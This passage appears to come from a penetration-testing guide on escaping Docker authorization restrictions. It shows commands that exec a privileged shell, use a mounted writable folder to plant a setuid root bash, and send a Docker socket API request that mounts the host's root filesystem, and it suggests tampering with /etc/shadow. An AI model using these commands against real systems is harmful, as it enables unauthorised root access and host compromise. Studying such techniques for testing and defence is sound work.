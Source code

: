 However, a user can **create a shell inside the running container and give it the extra privileges**:

```bash
docker run -d --security-opt "seccomp=unconfined" ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de
docker exec -it --privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
```

Now, the user can escape from the container using any of the previously discussed techniques and escalate privileges inside the host.

### Mount Writable Folder

In this case the sysadmin **disallowed users to run containers with the `--privileged` flag** or give any extra capability to the container, and he only allowed to mount the `/tmp` folder:

```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
 -p #This will give you a shell as root
```

{% hint style="info" %}
Note that maybe you cannot mount the folder `/tmp` but you can mount a **different writable folder**. You can find writable directories using: `find / -writable -type d 2>/dev/null`

**Note that not all the directories in a linux machine will support the suid bit!** In order to check which directories support the suid bit run `mount | grep -v "nosuid"` For example usually `/dev/shm` , `/run` , `/proc` , `/sys/fs/cgroup` and `/var/lib/lxcfs` don't support the suid bit.

Note also that if you can **mount `/etc`** or any other folder **containing configuration files**, you may change them from the docker container as root in order to **abuse them in the host** and escalate privileges \(maybe modifying `/etc/shadow`\)
{% endhint %}

### Unchecked JSON Structure

It's possible that when the sysadmin configured the docker firewall he **forgot about some important parameter** of the API \([https://docs.docker.com/engine/api/v1.40/\#operation/ContainerList](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList)\) like "**Binds**".  
In the following example it's possible to abuse this misconfiguration to create and run a container that mounts the root \(/\) folder of the host:

```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
